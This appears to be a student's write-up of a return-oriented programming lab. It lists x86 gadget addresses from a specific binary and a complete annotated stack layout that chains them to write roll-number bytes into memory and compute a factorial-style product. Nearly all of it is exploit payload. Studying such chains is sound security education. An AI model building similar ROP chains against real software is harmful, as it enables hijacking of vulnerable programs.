 # ROP

## Below are the steps used to solve the problem

Gadgets we have used :

1) To fill values in registers
    (a) eax -  0x080b8376 : pop eax ; ret
    (b) ecx -  0x080dec61 : pop ecx ; ret
    (c) edx -  0x0805bf42 : pop edx ; ret
    (d) edi -  0x08048480 : pop edi ; ret
    (e) esi -  0x08048433 : pop esi ; ret
    
2) To write into an address :
    --> First fill eax and edx appropriately, then use 
    (a) 0x08065a43 : mov word ptr [edx], ax ; mov eax, edx ; ret     
    (b) 0x08054bfb : mov dword ptr [edx], eax ; ret
    
3) For multiplication :
    --> First fill ecx with correct address,make sure eax has correct value, then use
    0x08063258 : imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret
    
4) To store eax in a register, and then retrieve that value. ( We had to use eax for both mutiplication and store into address)
    --> Store in ebx, then load from ebx again. 
    0x080d64bb : push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret 
    0x0804f44a : mov eax, ebx ; pop ebx ; ret







We have to fill the stack like this: with (ra) to main at top.


0x08048983   (ra) to main 
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret
0x00003332   (32 on top of stack)
0x080b8376   (ra)corresponds to (pop eax;ret)
0x080ea07e   (rollnumber2+6 on top of stack)
0x0805bf42   (ra) corresponds to pop edx;ret
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret
0x00004230   (B0 on top of stack)
0x080b8376   (ra)corresponds to (pop eax;ret)
0x080ea07c   (rollnumber2+4 on top of stack)
0x0805bf42   (ra) corresponds to pop edx;ret
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret
0x00003138   (18 on top of stack)
0x080b8376   (ra)corresponds to (pop eax;ret)
0x080ea07a   (rollnumber2+2 on top of stack)
0x0805bf42   (ra) corresponds to pop edx;ret
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret
0x00003536   (56 on top of stack)
0x080b8376   (ra)corresponds to (pop eax;ret)
0x080ea06e   (rollnumber1+6 on top of stack)
0x0805bf42   (ra) corresponds to pop edx;ret
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret
0x00004230   (B0 on top of stack)
0x080b8376   (ra)corresponds to (pop eax;ret)
0x080ea06c   (rollnumber1+4 on top of stack)
0x0805bf42   (ra) corresponds to pop edx;ret
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret
0x00003138   (18 on top of stack)
0x080b8376   (ra)corresponds to (pop eax;ret)
0x080ea06a   (rollnumber1+2 on top of stack)
0x0805bf42   (ra) corresponds to pop edx;ret

0x08054bfb   (ra) corresponds to mov dword ptr [edx], eax ; ret glb = 720
0x080eba20   (address of glb)
0x0805bf42   (ra) corresponds to pop edx;ret edx = glb
0x00000000   (random value on top of stack)
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 720
0x00000000   (random value on top of stack)
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 360
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 2
0x080eba20   (address of glb)
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb
0x00000002   (2 on top stack)
0x080b8376   (ra) corresponds to pop eax;ret # eax= 2
0x080eba20   (address of glb)
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 360
0x00000000   (random value on top of stack)
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 360
0x00000000   (random value on top of stack)
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 120
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 3
0x080eba20   (address of glb)
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb
0x00000003   (3 on top stack)
0x080b8376   (ra) corresponds to pop eax;ret # eax= 3
0x080eba20   (address of glb)
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 120
0x00000000   (random value on top of stack)
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 120
0x00000000   (random value on top of stack)
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 30
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 4
0x080eba20   (address of glb)
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb
0x00000004   (4 on top stack)
0x080b8376   (ra) corresponds to pop eax;ret # eax= 4
0x080eba20   (address of glb)
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 30
0x00000000   (random value on top of stack)
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 30
0x00000006   (6 on top of stack)
0x080b8376   (ra) corresponds to #pop eax;ret    eax = 6
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 5 
0x080eba20   (address of glb on top of stack)
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb
0x00000005   (5 on top of stack)
0x080b8376   (ra) corresponds to #pop eax ; ret 
0x080eba20   (address of glb)
0x080dec61   (ra) corresponds to  # pop ecx;ret  // ecx = &glb
0xffffd000   (some acccessible stack address)
0x08048480   (ra) corresponds to  pop edi;ret
0xffffd05e   (some acccessible stack address)
0x08048433   (ra) corresponds to pop esi ; ret















